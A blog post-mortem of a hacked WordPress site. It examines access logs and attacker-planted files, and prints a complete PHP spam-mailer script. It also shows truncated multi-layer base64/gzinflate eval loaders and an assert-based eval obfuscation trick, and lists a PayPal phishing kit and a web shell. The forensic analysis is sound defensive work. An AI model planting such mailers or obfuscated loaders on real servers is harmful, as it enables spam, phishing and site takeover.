




Well, so my blog got hacked. Even more unfortunate is that I can't seem to locate any trace of what it looked like when it was hacked. I guess that's the problem when you write a post-mortem literally a year after the original incident. 

All that's left is some eerie hints that something happened.

My blog was averaging around 350MB of bandwidth per day, when suddenly on June 6th, it started to spike. In fact, between June 6th and 7th, it used a total of over 40GB of bandwidth. It had eaten through my entire monthly bandwidth quota. 

At 6:48pm on June 7th, I had discovered that something was going on with my blog and started the process of fixing it. I looked through some of the access logs and saw a particular abundance of a strange file `pffam.php`

    91.234.164.143 - - [07/Jun/2014:05:07:18 -0400] "POST /wp/wp-content/themes/carrington-woot/pffam.php HTTP/1.1" 500 7309 "-" "Mozilla/3.0 (compatible; Indy Library)"
    78.26.204.99 - - [07/Jun/2014:05:07:19 -0400] "POST /wp/wp-content/themes/carrington-woot/pffam.php HTTP/1.1" 500 7309 "-" "Mozilla/3.0 (compatible; Indy Library)"
    46.173.111.151 - - [07/Jun/2014:05:07:21 -0400] "POST /wp/wp-content/themes/carrington-woot/pffam.php HTTP/1.1" 500 7309 "-" "Mozilla/3.0 (compatible; Indy Library)"

Presumably `pffam.php` was the bit of malicious code which was injected onto my server, acting as a nice endpoint for recieving and executing particular actions. It seems that [Indy Library](http://www.indyproject.org/index.en.aspx) is some sort of .NET library which implements HTTP. 

It's interesting that the endpoint is being hit by multiple IP addresses, and they all seem to geolocate to Eastern European countries. Presumably they've built some sort of graphical Command & Control panel out of Visual Basic or something. 

Unfortunately, it looks like I replaced the entire wordpress installation with an older backup— so I don't actually have any copies of `pffam.php`. But it managed to use 40GB of bandwidth, and hackers are hardly keen on keeping all their eggs in one bucket, so surely there must have been other endpoints— right?

Sure enough, there's another endpoint:
    
    109.87.224.22 - - [06/Jun/2014:21:18:06 -0400] "POST /ajaxanimator/stick2-old/jsgif/Demos/dswbk.php HTTP/1.1" 200 4 "-" "Mozilla/3.0 (compatible; Indy Library)"

And it looks like it was buried underneath enough files that I hadn't noticed and deleted it— woot? In fact there's actually a number of fascinating files and folders in that directory

    ├── IT2_9z38yd
    ├── PwdbqQ3nh0
    ├── SLn30gBqqv
    ├── SPIFBSYgsr
    ├── UXLPRmw9YY
    ├── XviRYdmJ4H
    ├── baZn0aynkw
    ├── bosa.php
    ├── dibdt.php
    ├── dswbk.php
    ├── fr1.php
    ├── hummjvq.php
    ├── ptRiJiayze
    │   ├── VjQauM_3Ev
    │   │   ├── btn_bg_sprite.gif
    │   │   ├── cv_amex_card.gif
    │   │   ├── cv_card.gif
    │   │   ├── de-security-hero.png
    │   │   ├── form.css
    │   │   ├── form.dat
    │   │   ├── form.php
    │   │   ├── help.jpg
    │   │   ├── help2.html
    │   │   ├── hr-gradient-sprite.png
    │   │   ├── ie6.css
    │   │   ├── ie7.css
    │   │   ├── ie8.css
    │   │   ├── index.css
    │   │   ├── index.dat
    │   │   ├── index.php
    │   │   ├── interior-gradient-bottom.png
    │   │   ├── interior-gradient-top.png
    │   │   ├── jquery.creditCardValidator.js
    │   │   ├── jquery.min.js
    │   │   ├── jquery.validationEngine-de.js
    │   │   ├── jquery.validationEngine.js
    │   │   ├── leftknob.png
    │   │   ├── loading.css
    │   │   ├── loading.php
    │   │   ├── logo_paypal_106x29.png
    │   │   ├── mid.swf
    │   │   ├── midopt.swf
    │   │   ├── mini_cvv2.gif
    │   │   ├── nav_sprite.gif
    │   │   ├── paypal_logo.gif
    │   │   ├── pp_favicon_x.ico
    │   │   ├── scr_arrow_4x6.gif
    │   │   ├── scr_backgradient_1x250.gif
    │   │   ├── scr_content-bkgd.png
    │   │   ├── scr_gray-bkgd.png
    │   │   ├── scr_gray-bkgd_001.png
    │   │   ├── secure_lock_2.gif
    │   │   ├── sprite_flag_22x16.png
    │   │   ├── sprite_header_footer_94.png
    │   │   ├── sprite_ia.png
    │   │   ├── sprite_ia_001.png
    │   │   ├── validationEngine.jquery.css
    │   │   ├── verify
    │   │   └── vertical-gradient-sprite.png
    │   └── verification
    ├── sthy.php
    ├── vlizzvij.php
    ├── x4MslaR1CW
    │   ├── BN3R5U8sF5
    │   │   ├── btn_bg_sprite.gif
    │   │   ├── cv_amex_card.gif
    │   │   ├── cv_card.gif
    │   │   ├── de-security-hero.png
    │   │   ├── form.css
    │   │   ├── form.dat
    │   │   ├── form.php
    │   │   ├── help.jpg
    │   │   ├── help2.html
    │   │   ├── hr-gradient-sprite.png
    │   │   ├── ie6.css
    │   │   ├── ie7.css
    │   │   ├── ie8.css
    │   │   ├── index.css
    │   │   ├── index.dat
    │   │   ├── index.php
    │   │   ├── interior-gradient-bottom.png
    │   │   ├── interior-gradient-top.png
    │   │   ├── jquery.creditCardValidator.js
    │   │   ├── jquery.min.js
    │   │   ├── jquery.validationEngine-de.js
    │   │   ├── jquery.validationEngine.js
    │   │   ├── leftknob.png
    │   │   ├── loading.css
    │   │   ├── loading.php
    │   │   ├── logo_paypal_106x29.png
    │   │   ├── mid.swf
    │   │   ├── midopt.swf
    │   │   ├── mini_cvv2.gif
    │   │   ├── nav_sprite.gif
    │   │   ├── paypal_logo.gif
    │   │   ├── pp_favicon_x.ico
    │   │   ├── scr_arrow_4x6.gif
    │   │   ├── scr_backgradient_1x250.gif
    │   │   ├── scr_content-bkgd.png
    │   │   ├── scr_gray-bkgd.png
    │   │   ├── scr_gray-bkgd_001.png
    │   │   ├── secure_lock_2.gif
    │   │   ├── sprite_flag_22x16.png
    │   │   ├── sprite_header_footer_94.png
    │   │   ├── sprite_ia.png
    │   │   ├── sprite_ia_001.png
    │   │   ├── validationEngine.jquery.css
    │   │   ├── verify
    │   │   └── vertical-gradient-sprite.png
    │   └── verification
    ├── xstyles.php
    └── yl27ceCuPh

-------------------

So it looks like most of these folders are actually empty, and a lot of the rest of the top level PHP files are the same. 

It seems that `bosa.php`, `dibdt.php`, `dswbk.php`, `hummjvq.php`, `sthy.php`, and `vlizzvij.php` are identical. 

    <?php
    $to      = stripslashes($_POST["to_address"]);
    $BCC      = stripslashes($_POST["BCC"]);
    $subject = stripslashes($_POST["subject"]);
    $message = stripslashes($_POST["body"]);
    $from_address = stripslashes($_POST["from_address"]);
    $from_name = stripslashes($_POST["from_name"]); 
    $contenttype = $_POST["type"];

    if (strlen($from_address) > 3)
    {
    $header = "MIME-Version: 1.0\r\n";
    $header .= "Content-Type: text/$contenttype\r\n";
    $header .=  "From: $from_name <$from_address>\r\n";
    $header .=  "Reply-To: $from_name <$from_address>\r\n";
    $header .= "Subject: $subject\r\n";

    $result = mail(stripslashes($to), stripslashes($subject), stripslashes($message), stripslashes($header));
    }
    else
    {
    $result = mail(stripslashes($to), stripslashes($subject), stripslashes($message));
    }

    if($result)
    {
    echo 'good';
    }
    else
    {
        'error : '.$result;
    }
    ?>

I'm guessing that it's being used to send spam messages to different people using the PHP `mail()` function. 

-------------------

More interesting is `fr1.php`, which is obfuscated as a giant base 64 encoded gzipped string. 

    eval(gzinflate(base64_decode('HZzHkoTKkkQ/591r...h/Pp/jc/L/+59///33f/4f')));

So to see what went inside, I stuck it in a different file and replaced the `eval` with `echo`. The first time I ran it, I had a bit of a double take because the result looked like this:

    eval(gzinflate(base64_decode('FZ23kuNKtkU/Z+4NGN...gRP6r//+ffff//v/wE=')));

And if two times isn't sufficiently meta, this happens a third

    eval(gzinflate(base64_decode('FZy3buRaFkU/Z94DA3q...GAfkEQPM8TBK/yP//+++9//w8=')));

A fourth...

    eval(gzinflate(base64_decode('HZ3HkqPqlkYf554TDPAuO...7fM8QRAFr//+9z///vvv//wf')));

fifth...

    eval(gzinflate(base64_decode('FZzHjuNaskU/p+8FB/...qAgCFAAAIIgiYKX8N///Pvvv//3/w==')));

sixth...
    
    eval(gzinflate(base64_decode('FZzHbuvKtkU/554...L63//+8++///73/wE=')));

seventh...

    echo(gzinflate(base64_decode('FZ3HbuRKEkU/Z94...4nCAI0SDH/+ffff//7fw==')));

Actually, it goes on **40 more times**, like a demented matroyshka doll. It's not UTF-8 encoded, so I had to guess a handful of encodings before discovering that it was what Sublime Text calls "Cyrillic (Windows 1251)". It's 1500 lines, so I've posted it in a [Gist](https://gist.github.com/antimatter15/f40a4615c68eea373ad4) rather than sticking it inline here. 

I skimmed through the code and it seemed relatively safe— or at least it didn't seem to plant any rootkits or start any persistent processes. So I ran it and got a screenshot. It seems to call itself "C99madShell v. 3.0 BLOG edition.php"

-------------------

The other distinct file, `xstyles.php` seems to be a little more unique. 

    <?php 

    $n = 'ss';
    $r ="rt";
    $a = "a";
    $y='e';
    $q = $a.$n.$y.$r;

    $v = '5b17fxo30zD8d/Ip5C3tQoMx4CRXYgx...8B';

    @$q("e"."va"."l('\x65\x76\x61\x6c\x28\x67\x7a\x69\x6e\x66\x6c\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65\x28\x24\x76\x29\x29\x29\x3b');");

So what does it do? Well, the first part basically just assembles `q` with the value "assert". 

    bool assert ( mixed $assertion [, string $description ] )

When PHP's built-in assert function is passed a string `$assertion`, it evaluates that string. It's less known than `eval` so this is plausibly useful for evading firewalls of a certain sort. So what it finally translates to is:

    assert("eval('eval(gzinflate(base64_decode($v)));');")

The decoded file starts out like this:

    <?php
    $auth_pass = "cef26cef9c9fdbdb49363368c8921635";
    $color = "#df5";
    $default_action = 'FilesMan';
    $default_use_ajax = true;
    $default_charset = 'Windows-1251';

I searched around for the password, but nobody's yet been able to find a matching plaintext. However, along the way I found out about [PHPDecoder](http://ddecode.com/phpdecoder/) which would have saved quite a bit of time an hour ago.

This one is also 1500 lines, so I've posted it in another [Gist](https://gist.github.com/antimatter15/a2375e36f0f04dc6b3fb). This one looks aesthetically a bit nicer— if it's not too weird to complement the tools of the people who hacked your website. 

-------------------

There's one (hah, pun not intended) folder entitled `1/` which is particularly interesting. It has three subdirectories: `configweb`, `sym`, and `tumdizin`.

Configweb seems to be a directory filled with symlinks to 9414 distinct configuration files, each of them residing on someone else's home directory. It encompasses lots of different software packages including Joomla, Wordpress, Zencart, SMF, WHM, OSCommerce, VBulletin and ore. 

The directory `sym` seems to just contain a symlink entitled `root` to— you guessed it— `/`. 

And finally `tumdizin` seems to link to the web roots of 116 distinct shared hosting accounts which happen to reside on the same server.

-------------------

However, it seems that there was some weird activity going on starting a few days before the massive traffic. There's an `error_log` file which seems to grow pretty slowly in general. There was a fairly large stretch from January to June with no errors— and then it seemed to constantly encounter these errors leading up to the traffic spike. 

    [03-Jun-2014 17:06:05 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /home/antimatt/public_html/wp/wp-rss.php(1) : eval()'d code:1) in /home/antimatt/public_html/wp/wp-includes/pluggable.php on line 1121
    [04-Jun-2014 19:31:54 UTC] PHP Warning:  include(images/settings.php): failed to open stream: No such file or directory in /home/antimatt/public_html/wp/wp-content/themes/carrington-woot/footer.php on line 24
    [04-Jun-2014 19:31:54 UTC] PHP Warning:  include(images/settings.php): failed to open stream: No such file or directory in /home/antimatt/public_html/wp/wp-content/themes/carrington-woot/footer.php on line 24

